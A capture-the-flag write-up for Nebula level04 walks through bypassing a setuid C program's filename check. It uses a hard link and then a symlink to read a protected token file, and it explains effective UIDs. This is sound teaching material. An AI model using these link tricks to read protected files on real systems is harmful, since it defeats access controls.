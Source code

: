 # For level04 in nebula

> This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)
>  
> To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04.


The source code of the program is provided below.

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {	//denies access as long as argument includes the word "token"
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));	//reads rc number of chars (where rc <= 1024) from the opened file to the buffer
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);		//writes rc number of characters from the buffer to stdout
}
```

Remember, our goal is to read the file `/home/flag04/token`. Only a process running as `flag04` is allowed to read the file, as shown by its permissions `-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token`. To open the file in this C program, we cannot include the word "token". 

This means we must somehow access the contents of the file through a different name.

1. `mv` can be used to rename/move the file, but we do not have permissions to do so. Ditto for `cp`. So option 1 is out.

2. `ln` can be used to create a [hard link](https://www.thegeekdiary.com/unix-file-basics-inode-soft-vs-hard-link-device-files/) of the file `token`.

![hard_link_illustration](http://www.techexams.net/technotes/linuxplus/hardlinks.gif) 

The illustration shows why we create a hard link. 

`level04@nebula:/home/flag04$ ln token ~/cheating_tok` creates a hard link `/home/level04/cheating_tok` that points to the *same* file inode as `/home/flag04/token`, essentially meaning they point to the same data.

Since `strstr("cheating_tok","token")` returns null, the program outputs the file's contents.
```
level04@nebula:/home/flag04$ ./flag04 ~/cheating_tok
06508b5e-8909-4f38-b630-fdb148a848a2
```
There we have it. We got the token. (~‾▿‾)~

### Some extra stuffs

1. Like hardlinks, symbolic links work too!

![symbolic_link_illustration](https://cdn.thegeekdiary.com/wp-content/uploads/2013/09/soft-link.png)

```
level04@nebula:/home/flag04$ ln -s /home/flag04/token /home/level04/soft_cheating_tok
level04@nebula:/home/flag04$ ./flag04 ~/soft_cheating_tok 
06508b5e-8909-4f38-b630-fdb148a848a2
```

> The open function realizes you have specified the name of a link, reads the file name contained in the link, and opens that file name instead.
[source](https://www.gnu.org/software/libc/manual/html_node/Symbolic-Links.html) 

My guess is that `strstr` did not find the substring "token" within the string "~/soft_cheating_tok", and so allowed the program to open and read the file. Once `open` received the string "~/soft_cheating_tok", it *knew* it was a symbolic symbol and reads the file name contained in the link instead. 

This is a sweet way to bypass the program security. (　＾∇＾)

2. Remember that `/home/flag04/token` and `/home/level04/cheating_tok` have the permissions - `-rw------- 1 flag04 flag04` - meaning that only processes running as `flag04` can access it. Now, even though the C program is owned by `flag04`, I executed it as `level04`, so technically, the C process should not be able to access `/home/flag04/flag04`. Yet it did. Why? (⊙.☉)7 

> Most of the time, the kernel checks only the effective user ID. For example, if a process tries to open a file, the kernel checks the effective user ID when deciding whether to let the process access the file. [source: Section 10.4 Real and Effective IDs](http://richard.esplins.org/static/downloads/linux_book.pdf)

Take a look at the permissions of the C program. The setuid bit is set `-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04`. Whoever runs this C program is temporarily given the permissions of user `flag04`. The effective UID (EUID) of the process is the owner of the process regardless of who ran the program. So, EUID is `flag04`, and since EUID is used to evaluate whether a process should be allowed to access a file, the C program has permissions to access `/home/flag04/flag04`.

3. Simply of curiosity, I decided to run `strace ./file4 token` and `strace ./file4 ~/cheating_tok` to compare the different syscalls. The output of the latter shocked me. (⊙.☉)7 

```
level04@nebula:/home/flag04$ strace ./flag04 ~/cheating_tok
execve("./flag04", ["./flag04", "/home/level04/cheating_tok"], [/* 28 vars */]) = 0
brk(0)                                  = 0x9a52000

[...] more output
             = 0
open("/home/level04/cheating_tok", O_RDONLY) = -1 EACCES (Permission denied)
write(2, "flag04: ", 8flag04: )                 = 8
write(2, "Unable to open /home/level04/che"..., 41Unable to open /home/level04/cheating_tok) = 41
write(2, ": ", 2: )                       = 2
write(2, "Permission denied\n", 18Permission denied
)     = 18
exit_group(1)                           = ?
```
Running `strace ./file4 ~/cheating_tok` somehow got the permission denied error even though `./file ~/cheating_tok` worked perfectly. [Here's why](https://superuser.com/questions/247888/strange-strace-and-setuid-behaviour-permission-denied-under-strace-but-not-run).

END






